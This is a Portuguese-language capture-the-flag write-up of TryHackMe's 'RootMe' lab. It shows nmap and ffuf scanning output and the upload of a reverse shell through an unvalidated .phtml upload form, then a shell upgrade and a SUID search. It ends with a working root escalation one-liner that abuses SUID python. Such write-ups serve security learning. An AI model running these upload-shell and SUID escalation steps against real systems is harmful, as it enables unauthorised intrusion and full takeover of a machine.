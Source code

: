 # ROOTME WRITEUP - TRYHACKME

este é um repositório rápido, explicando como entramos na máquina [rootme](https://tryhackme.com/room/rrootme) do tryhackme.



### OUTPUT DO NMAP 
```
nmap -v -sC -sV -oN nmap/nmap_tcp_simple 10.10.128.17
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### BRUTE FORCE DE DIRETÓRIOS UTILIZANDO O FFUF

```
ffuf -c -u http://10.10.128.17/FUZZ -w /usr/share/wordlists/common.txt
uploads                 [Status: 301, Size: 314, Words: 20, Lines: 10]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10]
panel                   [Status: 301, Size: 312, Words: 20, Lines: 10]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
                        [Status: 200, Size: 616, Words: 115, Lines: 26]
                        [Status: 200, Size: 616, Words: 115, Lines: 26]
:: Progress: [62275/62275] :: Job [1/1] :: 238 req/sec :: Duration: [0:04:21] :: Errors: 3 ::
```
encontrei dois diretórios interessante de analizar, que era o **panel** e **uploads**.

existia uma vulnerabilidade de upload de arquivo.
entrando no diretório podemos obter uma lista de arquivos upados, mas por enquanto o diretório ainda estava vazio.

entrando no diretório /panel encontramos um form de upload, no qual poderiamos upar um arquivo para obter uma reverse shell. 
obtive uma shell no site [reverse shells](https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html)

Parece que o servidor não validava o tipo de arquivo que está sendo carregado, pelo menos .phtml ele não validava, portanto, podemos carregar nosso arquivo malicioso para obter uma reverse shell

Recebi um aviso dizendo que a shell foi upada. Entrei no diretório /uploads e lá estava meu arquivo malicioso, apenas executei e recebi a shell no meu netcat que estava rodando com a porta 1337 em modo de escuta.

### OBTENDO UMA SHELL MELHOR

Utilizando o modulo do python 'pty', usei um comando para dar um upgrade na minha shell utilizando o comando: 

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
CTRL+Z
stty -echo raw
fg
stty rows 41 columns 166
```

Obtive a primeira flag que estava no diretório /home/$USER/user.txt

### BUSCANDO ARQUIVOS BINÁRIOS COM PERMISSÃO SUID

```
www-data@rootme:/home$ find / -perm /4000 2>/dev/                                                                           
/usr/lib/dbus-1.0/dbus-daemon-launch-helpe
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
...
/usr/bin/python
...
/usr/bin/chfn
/usr/bin/gpasswd

www-data@rootme:/home$ ls -lat /usr/bin/python 
-rwsr-sr-x 1 root root 3665768 Aug  4 17:47 /usr/bin/python
```

Podemos ver o python com essas permissões. 

### PRIVESC NA MÁQUINA

Já que tinhamos o python executando com permissões elevadas, logo busquei uma maneira de elevar meus privilegios para root.
O [GTFOBin](https://gtfobins.github.io/) tem vários métodos de escalação de privações que podemos usar.

```
www-data@rootme:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@rootme:/$ /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=33(www-data) groups=33(www-data)

```

e assim conseguimos root e a flag de flag no diretório /root/root.txt
